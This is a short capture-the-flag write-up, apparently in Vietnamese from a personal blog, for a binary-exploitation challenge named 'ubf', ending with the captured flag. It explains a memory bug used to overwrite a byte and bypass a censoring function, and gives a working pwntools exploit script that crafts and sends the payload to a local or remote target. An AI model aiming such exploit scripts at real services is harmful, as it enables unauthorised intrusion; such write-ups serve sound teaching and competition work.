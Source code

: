 Hmm, ta có thể tận dụng bug để v3 để trỏ vào `flag`, từ đó ghi đè byte `C` thành byte `\x01` tù đó bypass hàm  `censor_string`.

```python
from pwn import *
from time import sleep

context.binary = e = ELF("./ubf")
libc = e.libc
gs="""
"""
def start():
	if args.LOCAL:
		p=e.process()
		if args.GDB:
			gdb.attach(p,gdbscript=gs)
			pause()
	elif args.REMOTE:
		p=remote(args.HOST,int(args.PORT))
	return p

p = start()
pause()
_ = (p32(0x60)+
     p8(ord('b'))+
     p16(0x1)+
     p16(0xdab5)+
     b"1"
	)
_ += (p32(0x60)+
     p8(ord('s'))+
     p16(0x3)+
     p16(0x6)+
     p16(5)*3+
     b"$FLAG"+b"$MOTD"+b"$TEAM"
)
payload = base64.b64encode(_)
p.sendline(payload)
p.interactive()
```
![image](https://github.com/robbert1978/robbert1978.github.io.old/assets/31349426/af9f9eb2-21be-4764-8032-96474e831b27)

Flag: `CTF{Respl3nd4nt-C0nd1tion@l-El3ments}`
